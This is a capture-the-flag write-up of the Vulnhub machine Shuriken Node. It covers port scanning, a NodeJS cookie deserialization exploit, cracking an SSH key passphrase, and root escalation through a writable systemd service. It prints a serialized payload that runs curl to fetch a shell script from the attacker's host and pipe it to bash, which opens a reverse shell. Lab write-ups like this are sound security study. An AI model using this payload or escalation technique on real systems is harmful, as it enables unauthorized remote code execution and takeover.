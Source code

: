 ```yaml
---
title: Shuriken Node Writeup [Vulnhub]
tags: [Vulnhub, NodeJS, Systemd]
image: /assets/images/shurikennode/shurikennode.png
published: true
banner: false
---
```


Shuriken Node is a Linux based machine created by TheCyb3rW0lf, it is the second machine on his series of [Shuriken](https://www.vulnhub.com/series/shuriken,403/), we will get access to this machine exploiting a NodeJS deserealization vulnerability, find the ssh key of another using lying on the system, bruteforce the password of that key using john, and escalate privileges manipulating a service configuration file on which we have total privileges.

# [](#header-1)Enumeration

First we use arp-scan to find the IP of the machine on our network.

![](assets/images/shurikennode/arpscan.png)

We see that the machine is the 192.168.56.10, so we use nmap to find the open ports and then make a deeper scan on those ports.

```
nmap -p- -Pn -n -T 4 192.168.56.10
nmap -sC -sV -p 80, -Pn -o scan.txt 192.168.56.10

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 85:67:c9:bb:4b:ec:68:75:ea:37:b1:74:42:aa:02:a0 (RSA)
|   256 38:49:9a:87:63:f5:5b:5f:ac:0e:70:5d:68:7c:63:de (ECDSA)
|_  256 0b:22:59:fb:44:ee:b2:8f:a5:75:b2:45:70:1a:b9:ec (ED25519)
8080/tcp open  http    Node.js Express framework
|_http-title: Shuriken &ndash; Your reliable news source &ndash; Try Now!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is only two ports, SSH and a page on NodeJS so we go and check it.

![](assets/images/shurikennode/webpage.png)

# [](#header-1)Gaining Access

The webpage is a kind of blog and we see that it talks about NodeJS vulnerabilities, we check the request with Burp, and we see that a cookie is set.

![](assets/images/shurikennode/cookie.png)

It looks like it is base64 encoded, and when we decode it we get `{"username":"Guest","isGuest":true,"encoding": "utf-8"}`, there is two interesting values, "isGuest" and "username", if we find a site where we can't access we could try to manipulate those values to gain access. If we go to the page we se that there is the message, "Welcome, guest", so let's see if that value if reflected when we modify the coookie, so let's replace it with, `{"username":"5ubterranean","isGuest":true,"encoding": "utf-8"}`

![](assets/images/shurikennode/pageedited.png)

As we expected the value is reflected, so we know that the values inside the cookie are procesed, the page talks about NodeJS vulnerabilities, and since json is being processed we can be in front of a NodeJS deserealization vulnerability, we search about it and find an [article](https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e) that looks like exactly like this scenario. The article proposes a reverse shell using named pipes and a nc version that doesn't support "-e" option, I rather use curl to request a reverse shell and pipe it to bash, so I write a file called "shell.sh" which contains a bash reverse shell command, and host it with `python3 -m http.server`, then modify the code so it requests my file, and after executing the file we get the serialized value:
```
Serialized: 
{"test":"_$$ND_FUNC$$_function(){\n  require('child_process').execSync(\"curl 192.168.56.130:8000/shell.sh | bash\", {});\n}"}
```

We add the serialized string to the cookie (don't forget to add the "()" at the end so it gets executed), encode it with base64 and use repeater to send it to the target server.

![](assets/images/shurikennode/burprepeater.png)

We don't get an answer, so we check our listeners and we see that the reverse shell file was requested and we have a shell to the machine.

![](assets/images/shurikennode/httpserver.png)
![](assets/images/shurikennode/shell1.png)

# [](#header-1)Lateral Movement

After enumrating the system for a while we put our attention on the other user that has access to the machine, "serv-adm", so we search for any file that belongs to him, we find a file called ssh-backup.zip that contains his ssh key.

![](assets/images/shurikennode/sshkey.png)

We copy the key to our machine and find out that it requires a password, so we use ssh2john and john to figure out the password.

![](assets/images/shurikennode/keybruteforce.png)

The password is "shuriken1995@", so now we can connect as serv-adm through ssh.

![](assets/images/shurikennode/shell2.png)

# [](#header-1)Privilege Escalation

We check what we can run as root, and we see that we can start and stop the service "shuriken-auto.timer", and reload the daemon.

![](assets/images/shurikennode/sudol.png)

Services are defined by systemd files, which are located at /etc/systemd/system, so we go there to check what exactly that service does, we see that we own the file corresponding to that service, and also there is another file "shuriken-job.service".

![](assets/images/shurikennode/shurikenservices.png)

To understand what those files do we can read some blogs and overall the man of [timer](https://man7.org/linux/man-pages/man5/systemd.timer.5.html), [unit](https://man7.org/linux/man-pages/man5/systemd.unit.5.html) and [service](https://man7.org/linux/man-pages/man5/systemd.unit.5.html). So the service that we can start ends on .timer, this is a service that executes another services we can't actually put commands here to be ran, so let's see what it does.
```
[Unit]
Description=Run Shuriken utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=shuriken-job.service

[Install]
WantedBy=basic.target
```

It has two timers stablished, the first one runs on boot, and the other one runs every 30 minutes (it doesn't run every 30 minutes from boot time, but when the clock hits 30 and 0), what it happens at those times is that "shuriken-job.service" is started, so let's see what it does.
```
[Unit]
Description=Logs system statistics to the systemd journal
Wants=shuriken-auto.timer

[Service]
# Gather system statistics
Type=oneshot
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```
There is only two important things to notice, if shuriken-auto.timer isn't running this service won't start, and what it does is to run /bin/df. Besides reading the manual to understand what those files do we can start the service and see what it tells us.

![](assets/images/shurikennode/systemctlstatus.png)

As we see we get the description of the service, the service is running but waiting, and that the trigger will occur on 23 minutes, so to exploit this first we need to create a file with a reverse shell code and make it executable, I do it on the tmp folder and call it "rev", then we edit shuriken-job.service so it runs our reverse shell instead of df (use absolute path to the file), after that we don't want to wait 30 minutes to get our shell so we modify shuriken-auto.timer to make it run every minute, to do that we change `*:0/30` to `*:0/60`, finally we reload the daemon and restart the service, if you are testing changes without knowing if they will work is better to do everything in one line, `sudo systemctl daemon-reload; sudo systemctl stop shuriken-auto.timer; sudo systemctl start shuriken-auto.timer`, with that when the service is ran we will get a shell as root.

![](assets/images/shurikennode/shell3.png)

# [](#header-1)Final Thoughts

Deserealization is a serius problem, so if you really need to serialize data make sure to check everything that comes serialized, also there is nothing wrong with writing services files, but the files should be owned by root, also if there is no need to them to be ran as root you can specify as which user you want them to run.